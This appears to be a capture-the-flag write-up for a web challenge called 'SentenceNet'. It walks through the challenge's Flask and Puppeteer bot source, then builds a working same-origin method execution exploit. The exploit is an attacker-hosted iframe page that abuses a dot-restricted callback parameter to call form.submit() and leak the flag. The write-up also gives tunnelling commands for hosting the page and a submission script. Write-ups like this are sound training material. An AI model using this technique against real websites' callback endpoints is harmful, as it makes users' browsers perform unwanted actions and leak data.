

## SentenceNet  



This challenge involves a Flask frontend server and an Express server running an admin bot.  

The Flask server has a `/report` server that gets the Express admin bot to visit an arbitrary URL. Interestingly, unlike conventional XSS challs, `/report` doesn't restrict the URL to only endpoints on the challenge server, meaning we can potentially host and report our own malicious pages. This will come in handy later.  

```python
@app.route('/report', methods=['GET', 'POST'])
def report():
    if request.method == 'POST':
        report_url = request.form.get('report_url', '')
        resp = requests.post('http://user:31337/visit', json={'url': report_url})
        if resp.ok:
            return render_template('report.html', submitted=True)
    return render_template('report.html', submitted=False)
```

```js
import puppeteer from "puppeteer";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

export const visit = async (visit_url) => {
  console.log(`start trigger`);

  const browser = await puppeteer.launch({
    headless: false,
    executablePath: "/usr/bin/google-chrome-stable",
    args: ["--no-sandbox",
      "--disable-popup-blocking",
      "--ignore-certificate-errors",
      "--disable-features=UpgradeInsecureRequests",
      "--allow-insecure-localhost",
    ],
  });
  const context = await browser.createBrowserContext();

  async function visitUrl(page, url) {
    try {
      console.log('visiting ' + url);
      page.setDefaultNavigationTimeout(10000);
      await page.goto(url);
      await sleep(5000);
    } catch (err) {
      console.error('Error in processPage:', err);
    }
  }

  try {
    const page = await context.newPage();

    await visitUrl(page, visit_url);

  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();
};
```

The Flask server has a `/post` endpoint that turns our supplied input into a post on the webpage.  

```python
@app.route('/post', methods=['GET', 'POST'])
def post():
    if request.method == 'POST':
        global info_value
        info_value = request.form.get('info_value', '')
        return redirect(url_for('info'))

    ip_address = request.remote_addr
    ip_obj = ipaddress.ip_address(ip_address)

    if ip_obj.is_private or ip_obj.is_loopback:
        FLAG = open('/flag', 'r').read()
        value = FLAG
    else:
        value = ''

    return render_template('post.html', value=value)
```

The `post.html` template doesn't do any unsafe escapes on the post content, so that rules out XSS.  

However, the `/post` endpoint from earlier autofills the input box with the flag if an internal request is made to it. We can thus assume that we are meant to trick the admin bot into making the submission for us.  

```html

Share a Thought | SentenceNet


<h1 class="mb-4">Share a Thought</h1>
<p class="text-muted">Your sentence will be visible to everyone – one thought at a time.</p>

<form method="post" action="{{ url_for('post') }}" class="row g-3">
  <div class="col-md-9">
    <label for="info_value" class="form-label visually-hidden">Thought</label>
    <input type="text"
           class="form-control"
           id="info_value"
           name="info_value"
           maxlength="280"
           placeholder="What's on your mind (one sentence only)..."
           value="{{ value }}"
           required>
  </div>
  <div class="col-md-3 d-flex align-items-end">
    <button class="btn btn-primary w-100" type="submit">Post</button>
  </div>
</form>

```

The `/callback` endpoint is a bit more interesting. It allows us to supply a function that gets passed into the frontend.  

The whitelist restricts the function name to alphanumerics and periods.  

```python
@app.route('/callback', methods=['GET'])
def callback():
    ip_address = request.remote_addr
    ip_obj = ipaddress.ip_address(ip_address)

    if not (ip_obj.is_private or ip_obj.is_loopback):
        abort(403, 'Access denied')

    callback_fn = request.args.get('callback', 'console.log')
    if not re.fullmatch(r'[A-Za-z0-9.]+', callback_fn):
        abort(400, 'Invalid callback parameter')

    global info_value
    return render_template('callback.html', callback_fn=callback_fn, info_value=info_value)
```

The `callback.html` template is rather interesting, as it takes the supplied function name and embeds it into a `<script>`. The client-side script then invokes the function and passes a JS object as an argument.  

Unfortunately, the `tojson` filter is used to safely escape the `info_value` post content, which completely restricts the function argument to the object that isn't particularly useful.  

```html

Callback Test | SentenceNet


<h1 class="mb-4">Dev Page: Callback</h1>

<p>This page demonstrates how a <code>callback</code> parameter can be used to invoke JavaScript functions with server data.</p>

<pre class="bg-light p-3 rounded">&lt;script&gt;
  {{ callback_fn }}({ info: {{ info_value | tojson }} });
&lt;/script&gt;
</pre>

<h2 class="mt-4">Working Example:</h2>
<div id="output" class="alert alert-info">Waiting for callback...</div>

<script>
  function updateDisplay(data) {
    const el = document.getElementById('output');
    el.textContent = "Callback received: " + JSON.stringify(data);
  }

  {{ callback_fn }}({ info: {{ info_value | tojson }} });
</script>

<p class="mt-3 text-muted">
  Try visiting:
  <a href="{{ url_for('callback') }}?callback=updateDisplay" class="text-decoration-underline">?callback=updateDisplay</a>
  or
  <a href="{{ url_for('callback') }}?callback=console.log" class="text-decoration-underline">?callback=console.log</a>
</p>

```

With all these restrictions in mind, we realise that we can't achieve arbitrary JS execution or XSS, severely limiting our options.  

However, we realise that the DOM `HTMLFormElement.submit()` function does not accept any arguments, and JS simply ignores any additional arguments supplied to a function, allowing us to overcome the forced object argument.  

Next, we just need to figure out a way to call `.submit()` from `/callback`, since `/post` is a completely separate endpoint. We can achieve this by reporting an external page that loads 2 iframes which correspond to each page.  

The first iframe will open the `/post` with the flag loaded in the input box. Once this iframe has loaded, we then load a second iframe that opens `/callback`. Since both iframes are same-origin, the second can traverse the DOM tree out of its context and into the first iframe, then call `.submit()` to post the flag.  

```js
<iframe name="f1" src="http://home:8001/post"></iframe>
<script>
  const f1 = document.querySelector('iframe[name="f1"]')
  
  f1.onload = function () {
    const payload =
      "parent.frames.f1.document.body" +
      ".firstElementChild.nextElementSibling" +
      ".firstElementChild" +
      ".nextElementSibling" +
      ".nextElementSibling" +
      ".submit"                        

    const f2 = document.createElement('iframe')
    f2.name = 'f2'
    f2.src = `http://home:8001/callback?callback=${encodeURIComponent(payload)}`
    
    document.body.appendChild(f2)
  }
</script>
```

One last obstacle we have to overcome is the HTTP tunnel setup. By default, Chrome throws a `Mixed Content` error when a HTTPS server attempts to make a request to a resource served over HTTP, and most free tunnelling services like `ngrok` and `localhost.run` either have a default browser warning page or auto-redirects to HTTPS, both of break the exploit.  

For this challenge, I found that [Bore](https://github.com/ekzhang/bore) provided a free solution that met all these requirements.  

We first start a Python HTTP server in the same directory as our HTML payload, then use `bore` to publicly host our payload server.  

```bash
python -m http.server 6767
bore.exe local 6767 --to bore.pub
```

Submitting the URL of our hosted page to `/report` will then exfiltrate the flag to `/info`.  

Below is the submission script I used.  

```python
import requests
import re

url = 'http://host3.dreamhack.games:16848/'
s = requests.Session()

print("> Reporting exploit page")

payload_url = 'http://bore.pub:24002'

res = s.post(f'{url}/report', data={
    'report_url': f'{payload_url}/exploit.html'
})

# get flag
res = s.get(f"{url}/info")

flag = re.findall(r'(DH{.+?})', res.text)[0]
print("Flag:", flag)
```

Flag: `DH{S0M3_1N73123571NG_73CHN1QU3:CxUnr5/5ktjsmwQS0r5cKg==}`